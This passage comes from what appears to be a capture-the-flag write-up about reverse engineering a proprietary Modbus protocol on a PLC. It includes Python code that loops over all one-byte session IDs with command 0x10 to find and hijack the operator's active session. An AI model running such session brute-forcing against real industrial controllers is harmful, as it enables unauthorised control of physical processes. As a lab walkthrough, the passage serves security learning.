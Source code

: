 ````python
    code, status, data = send_packet(client, SESSION, custom_code)

    hex_data = [hex(x) for x in data]

    formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
    print(hex_data, formatted_hex_string)
    
````

With the updated client, that properly handles the custom ModbusRequest and ModbusRespones we can continue our analysis with a more streamlined approach.

> Note: Even though the challenge does not explicitly require an update to the template, it is important to note that when dealing with proprietary protocols, it is imperative to properly set up the encoding and decoding processes for requesting and receiving data, including the handling of custom Error Codes. This will streamline the process of reverse engineering the protocol and properly interacting with it.

### Finding the active session

So, based on the error message we receive when we send the command 0x10, and the description that prompts us to hijack the session from the operator program, our next logical step will be to identify the active session. Based on the PCAP traffic during the reservation only a simple name (or password) is given, namely the ASCII text: `operator`. It appears that there is not a proper authentication mechanism in place that is used to gain a session to the PLC. Combining that with the fact that the session ID is only one byte long we should be able to fuzz the Modbus server until we find the currently active session. To achieve that we can :

1.  Use the command 0x10 until we observe a different response from the one we currently receive 

   or

2.  Attempt to send one of the restricted commands.



1 Using the 0x10 command:

```python
# <SNIP>

if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    custom_code = 0x10
    for i in range(0x00, 0xff):
        SESSION = i
        code, status, data = send_packet(client, SESSION, custom_code)


        hex_data = [hex(x) for x in data]

        formatted_hex_string = ''.join(f'{int(x, 16):02x}' for x in hex_data)
        print(hex_data, formatted_hex_string)

        if data != [0xe0, 0x06]:
            print(f'Current Session ID: {SESSION} ({SESSION:#x})')
            break

```
